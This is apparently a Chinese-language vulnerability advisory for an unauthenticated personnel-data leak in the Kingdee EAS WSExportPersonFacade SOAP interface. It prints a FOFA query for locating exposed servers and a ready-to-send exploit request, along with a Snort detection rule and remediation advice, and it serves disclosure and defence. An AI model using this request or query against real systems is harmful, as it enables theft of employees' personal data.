

# 金蝶EAS WSExportPersonFacade 存在敏感信息泄露

金蝶EAS WSExportPersonFacade 存在敏感信息泄露，导致数据信息泄露或者导致服务器被控制。

# 影响版本

金蝶EAS

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="getCookie(\"EasAuthPattern\")" || header="Apusic" || header="EASSESSIONID"

POC/EXP：

```
POST /ormrpc/services/WSExportPersonFacade HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: identity
Connection: keep-alive
Content-Type: text/xml; charset=utf-8
Soapaction: ""
User-Agent: Mozilla/5.0

<?xml version="1.0"?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Body><ns1:exportPersonData soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:ns1="http://127.0.0.1/ormrpc/services/WSExportPersonFacade" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><start xsi:type="xsd:int">0</start><rows xsi:type="xsd:int">3</rows></ns1:exportPersonData></soapenv:Body></soapenv:Envelope>
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"金蝶EAS - /ormrpc/services/WSExportPersonFacade exportPersonData 未授权人员数据泄露";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/ormrpc/services/WSExportPersonFacade";
        fast_pattern;
    http.content_type; content:"text/xml";
    http.request_body;
        content:"exportPersonData"; nocase;
        content:"soapenv:Envelope"; distance:0; nocase;
        content:"start"; distance:0; nocase;
        content:"rows"; distance:0; nocase;
    metadata:
        service http,
        affected_product "金蝶 EAS / EAS Cloud",
        vulnerability_type "Unauthenticated SOAP Interface / Sensitive Person Data Disclosure",
        severity "high";
    classtype:sensitive-information-leak;
    sid:1000764;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
